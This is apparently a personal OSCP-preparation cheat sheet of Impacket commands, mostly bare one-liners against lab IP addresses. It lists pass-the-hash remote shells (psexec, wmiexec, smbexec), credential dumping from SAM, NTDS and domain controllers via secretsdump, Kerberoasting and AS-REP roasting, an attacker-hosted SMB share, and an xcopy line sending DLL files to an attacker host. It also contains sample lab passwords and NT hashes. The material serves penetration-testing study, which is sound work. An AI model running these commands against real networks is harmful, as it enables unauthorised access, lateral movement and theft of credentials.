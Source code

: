 ### 21-Oct-23 Sat

```
impacket-psexec domain/username:'password'@IP
```

```
impacket-psexec username@ip -hashes LM:NT
```

```
impacket-wmiexec domain/username:'password'@IP
```

```
impacket-wmiexec -hashes
00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b
Administrator@192.168.50.212
```

```
impacket-smbexec domain/username:'password'@IP
```

```
impacket-secretsdump -sam sam -security security -system system LOCAL
```

```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

```
impacket-secretsdump sync.csl/manager:'!!MILKSHAKE!!'@172.31.3.6
```

```
impacket-GetUserSPNs -request -dc-ip $DomainIP $DomainName/$DomainUser
```

```
impacket-GetNPUsers -request -dc-ip $DomainIP $DomainName/$DomainUser
```

```
impacket-psexec -hashes
00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b
Administrator@192.168.50.212
```

```
proxychains -q impacket-psexec -hashes
00000000000000000000000000000000:f0397ec5af49971f6efbdb07877046b3 beccy@172.16.6.240
```

```
 impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -k -no-pass -request
```

```
impacket-GetNPUsers sync.csl/manager -format john
```

```
sudo impacket-smbserver -smb2support share $(pwd)
```

![image](https://github.com/r1skkam/OffSec-PEN-200-OSCP-Preparation/assets/58542375/c49f33ee-54e0-4aaa-800f-f66de51e0b5a)

```
xcopy *.dll \\attackerIP\share\
```

```
impacket-mssqlclient [[domain/]username[:password]@]<targetName or address>
```

```
impacket-mssqlclient sequel.htb/sql_svc:'REGGIE1234ronnie'@10.129.213.2 -windows-auth
```

